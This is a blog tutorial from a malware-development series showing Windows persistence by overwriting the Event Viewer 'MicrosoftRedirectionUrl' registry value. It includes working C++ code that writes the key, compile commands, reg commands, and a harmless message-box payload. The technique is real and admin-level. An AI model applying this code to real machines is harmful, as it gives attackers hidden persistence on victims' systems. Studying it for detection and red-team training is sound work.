 ```yaml
---
title:  "Malware development: persistence - part 14. Event Viewer help link. Simple C++ example."
date:   2022-10-09 03:00:00 +0300
header:
  teaser: "/assets/images/74/2022-10-09_05-28.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/74/2022-10-09_05-28.png){:class="img-responsive"}    

This post is the result of self-researching one of the interesting malware persistence trick: via replacing Windows Event Viewer help link.     

### event viewer help link

Windows' Event Viewer has existed for over a decade. The Event Viewer examines a limited number of logs that Windows maintains on your computer. The logs are `XML`-formatted text files containing plain content.     

![pers](/assets/images/74/2022-10-09_05-10.png){:class="img-responsive"}    

As part of its user interface, Event Viewer provides a link to *Event Log Online Help*:    

![pers](/assets/images/74/2022-10-09_05-11.png){:class="img-responsive"}    

When clicked, a default help Microsoft link will be opened, which is defined at the windows registry at `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer`:     

![pers](/assets/images/74/2022-10-09_05-13.png){:class="img-responsive"}    

As you may have guessed, it would be logical to assume that the key: `MicrosoftRedirectionURL` value can be changed in the interests of an attacker. That's the trick.    

### practical example

Let's look at a practical example. Firstly, as usually, create evil application, `meow-meow` "malware" (`hack.cpp`):    

```cpp
/*
hack.cpp
evil app for windows persistence via
event viewer help link update
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Then, create a program for persistence (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via
replace event viewer help link
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/09/malware-pers-14.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // event viewer
  const char* app = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Event Viewer";

  // evil app
  const char* exe = "file://Z:\\2022-10-09-malware-pers-14\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v "MicrosoftRedirectionUrl" /t REG_SZ /d "file://...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"MicrosoftRedirectionUrl", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

As you can see, the logic is simple, just update registry key value to `file://Z:\\2022-10-09-malware-pers-14\\hack.exe`.    

### demo

Let's go to see everything in action. Compile "malware":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/74/2022-10-09_17-31.png){:class="img-responsive"}    

check correctness:    

![pers](/assets/images/74/2022-10-09_05-38_1.png){:class="img-responsive"}    

and compile persistence script:    
```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/74/2022-10-09_05-24.png){:class="img-responsive"}    

Check default registry key values at the victim's machine - `Windows 10 x64` in my case:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Event Viewer" /s
```

![pers](/assets/images/74/2022-10-09_05-25.png){:class="img-responsive"}    

then also run at the victim's machine - `Windows 10 x64` in my case:    

```powershell
.\pers.exe
```    

![pers](/assets/images/74/2022-10-09_05-26.png){:class="img-responsive"}    

Finally, try to click *Event Log Online Help* link again:    

![pers](/assets/images/74/2022-10-09_05-11.png){:class="img-responsive"}    

![pers](/assets/images/74/2022-10-09_05-27.png){:class="img-responsive"}    

Then I looked at the properties of `hack.exe` in Process Hacker 2:    

![pers](/assets/images/74/2022-10-09_05-34.png){:class="img-responsive"}    

![pers](/assets/images/74/2022-10-09_05-30.png){:class="img-responsive"}    

This means that when link clicked, `mmc.exe` is launched, which in turn launches malicious behavior.    

For revert, after end of experiments, run:    

```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Event Viewer" /v "MicrosoftRedirectionUrl" /t REG_SZ /d "http://go.microsoft.com/fwlink/events.asp" /f
```

![pers](/assets/images/74/2022-10-09_05-38.png){:class="img-responsive"}    

or just restore virtual machine.     

> This is admin-level malware persistence trick, so this feature is work only with admin permissions       

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

> This is a practical case for educational purposes only.      

[Event Viewer](https://learn.microsoft.com/en-us/shows/inside/event-viewer)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[source code in github](https://github.com/cocomelonc/2022-10-09-malware-pers-14)        

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
